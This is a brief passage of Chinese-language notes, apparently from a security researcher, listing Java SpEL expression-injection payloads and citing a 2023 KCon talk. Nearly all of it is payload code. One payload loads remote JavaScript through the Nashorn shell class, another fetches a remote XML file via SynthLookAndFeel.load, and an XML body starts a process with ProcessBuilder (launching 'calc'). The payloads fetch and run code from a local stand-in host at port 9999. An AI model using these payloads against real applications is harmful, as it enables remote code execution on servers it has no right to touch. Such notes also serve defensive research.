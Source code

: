 > T(com.sun.tools.script.shell.Main).main(new String[]{"-e", "load('http://127.0.0.1:9999/1.js')"})

## 远程加载xml

`javax.swing.plaf.synth.SynthLookAndFeel#load`

SpEL表达式

> new javax.swing.plaf.synth.SynthLookAndFeel().load(new java.net.URL("http://127.0.0.1:9999/1.xml"))

```xml
<new class="java.lang.ProcessBuilder">
	<string>calc</string>
	<object method="start"></object>
</new>
```

# Reference

2023KCon 《Java表达式攻防下的黑魔法》
